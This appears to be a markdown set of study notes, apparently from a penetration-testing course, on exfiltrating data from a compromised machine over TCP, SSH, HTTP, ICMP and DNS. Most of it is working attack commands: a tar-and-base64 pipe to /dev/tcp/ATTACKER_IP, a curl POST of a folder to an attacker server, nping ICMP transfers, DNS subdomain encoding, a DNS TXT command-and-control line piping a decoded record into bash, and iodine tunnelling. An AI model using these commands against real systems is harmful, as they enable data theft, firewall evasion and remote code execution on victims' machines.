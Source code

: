 [Data Exfiltration](#data-exfiltration)
  - [TCP](#tcp)
  - [SSH](#ssh)
  - [HTTP](#http)


# Data Exfiltration
- extract information
- outbound traffic TCP/UDP 53 (DNO)

- Bind9 server
  - buy a domain (https://www.youtube.com/watch?v=p8wbebEgtDk)

## TCP
- easy to detect
- listener on attacker: nc -lvp XXX > output.txt
  
- connecttion on victim:
  - tar zfc - folder/ | base64 | dd conv=ebcdic > /dev/tcp/ATTAcKER_IP/PORT
    - compress folder
    - convert to base64
    - convert and copy file, from ASCI du EBCDIC
    - send to this Port
- Received file
  - dd conv=ascii if=received.file | base64 -d > file.tar

## SSH
- Connection on victim 
  - tar cf - filder/ | ssh user@ip "cd /tmp/; tar xpf -"

## HTTP
- post request: not cached, not in browse, not bookmarked, no restriction on size
- SEND: curl --data "files=$(tar zcf - FOLDR/ | base64)" http://attacker-server/file.php
- RECEIVE: correct URL enconding

- HTTPS
  - https://www.digitalocean.com/community/tutorials/how-to-create-a-self-signed-ssl-certificate-for-apache-in-ubuntu-18-04

## ICMP
- fill out data-field with data
- ping 
  - -p = in hexadecimal
    - xxd -p = convert to hexadecimal
  - Metasploit  
    - Begin of File (BOF) + End of File (EOF)
    - auxiliry=> icmp_exfil
    - BPF_FILTER = only for icmp
- nping
  - Victim: 
    - send BOF
      - nping --icmp -c 1 ATTACKER_IP --data-string "BOFfile.txt"
  - send DATA
    - nping --icmp -c 1 ATTACKER_IP --data-string "blabla"
  - send EOF
    - nping --icmp -c 1 ATTACKER_IP --data-string "EOF"
  - icmpdoor
    - needs execution on victim
    - all traffics goes through ICMP
    - icmpdoor -i eht0 -d IP
  - Attacker
    - icmp-cnc -i eth1 -d IP

## DNS
- Extract data from DNS
- Easy to bypass firewalls and IPS
- Perfom dns request and input data there
  - Ex: EXFILTRATED_DATA@domain.thm

- Create own DNS
  - https://www.youtube.com/watch?v=p8wbebEgtDk

- Steps
  - find data to sent
  - encode data 
  - send as subdomain, max 255 characters URL and 63 subdomain
- cat file_to_sent
  - tr -d "\n" = remove breakline
  - fold -w18 = divide in block of 18 characters
  - sed -r 's/.*/&.domain'/ = append domain
- Decode
  - filter extracted file and decode

- Command and Control
  - encode script 
  - add it to TXT dns record
  - ask for this record: dig +short -t TXT
  - decode script
  - execute it
  - dig +short -t TXT ns.domain | remove " | base64 -d | bash

### DNS Tunnel
- TCP over DNS
- iodine
  - client
  - and server
  - Client
    - iodined -f -c -P password IP/CID att.tunnel.com
      - create new interface dns0
      - -f background
      - -c no checking client ip and for
      - -P set password
      - IP = set network IP and interface
      - att.tunnel = nameserver
  - Server
    - iodine -P password att.tunnel.com

#### Other Tools
- packetygrabber.py => https://github.com/kleosdc/dns-exfil-infil
- dns-exfil-infil.py => https://github.com/kleosdc/dns-exfil-infil
- 